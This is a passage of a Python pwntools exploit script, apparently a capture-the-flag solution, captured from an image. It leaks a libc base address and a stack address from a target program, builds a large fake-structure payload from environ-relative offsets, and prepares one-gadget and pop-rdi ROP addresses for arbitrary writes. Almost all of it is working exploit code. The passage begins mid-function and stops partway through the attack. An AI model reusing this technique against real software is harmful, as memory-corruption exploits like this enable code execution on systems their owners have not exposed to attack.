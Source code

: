 ```
    sleep(1)
    c.sendlineafter(b'> ', cc.encode())

def eq(vn, vv, s = False):
    if s: cmd(f'{vn} = "{vv}"')
    else: cmd(f'{vn} = {str(vv)}')

payload_offset = [139637978842648, 0, 10, 0, 0, 0, 0, 18446744073709551615, 0, 139637978847008, 18446744073709551615, 0, 139637978839488, 0, 0, 0, 4294967295, 0, 0, 139637978832944, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 139637978833448, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 139637978839744, 0, 1, 0, 0, 139637977445744, 139637978614330, 139637978614330, 0, 0, 0, 1, 2, 139637978870424, 0, 18446744073709551615, 139637978646192, 0, 139637978824224, 139637978825984, 139637978826304, 139637978824000, 139637978825408, 139637978825312, 0, 139637978826112, 139637978825856, 139637978823840, 139637978826208, 139637978825216, 139637978825024, 139637978507456, 139637978503616, 139637978505152, 139637978614328, 139637978614328, 139637978614328, 139637978614328, 139637978614328, 139637978614328, 139637978614328, 139637978614328, 139637978614328, 139637978614328, 139637978614328, 139637978614328, 139637978614328, 0, 0, 0, 139637978842336, 0, 0, 0, 4222427271, 139637978842467, 139637978842467, 139637978842467, 139637978842467, 139637978842467, 139637978842467, 139637978842467, 139637978842468, 0, 0, 0, 0, 139637978842560, 2, 18446744073709551615, 0, 139637978846976, 18446744073709551615, 0, 139637978838752, 0, 0, 0, 0, 0, 0, 139637978832944, 4222429319, 139637978842691, 139637978842691, 139637978842691, 139637978842691, 139637978842691, 139637978842691, 139637978842691, 139637978842692, 0]
payload_offset[-6] = libc.sym['environ'] + 0x7f0000000000
payload_offset[-5] = libc.sym['environ'] + 0x7f0000000000 + 8
payload_offset[-10] -= 0x1000
cmd("1")
c.recvuntil(b'= ')
libc.address = int(c.recvline(False).decode(), 16)
target1 = libc.address + 0x203918
cmd("2")
sleep(1)
c.sendlineafter(b'Mem: ', hex(target1).encode())
target2 = libc.address + 0x2045c0
success(f"target = {hex(target2)}")
ogg = libc.address + 0xef4ce
sleep(1)
c.sendlineafter(b'\n', p64(target2) * 3 + flat(target1, target2 + 0x58, 0))

payload = b''
for i in payload_offset:
    if i < 0x7f0000000000:
        payload += p64(i)
    elif i > 0xffffffffffffff00:
        payload += b'\xff' * 8
    else:
        payload += p64(libc.address + i - 0x00007f0000000000)
sleep(1)
c.sendlineafter(b'> ', p64(target1) + payload)

stack = u64(c.recvuntil(b'\x7f')[-6:] + b'\0\0') - 0x160
success(f"stack = {hex(stack)}")
poprdi = 0x000000000010f75b + libc.address
sleep(1)
c.sendlineafter(b'> ', flat(stack, stack + 0x100, 0))
sleep(1)
```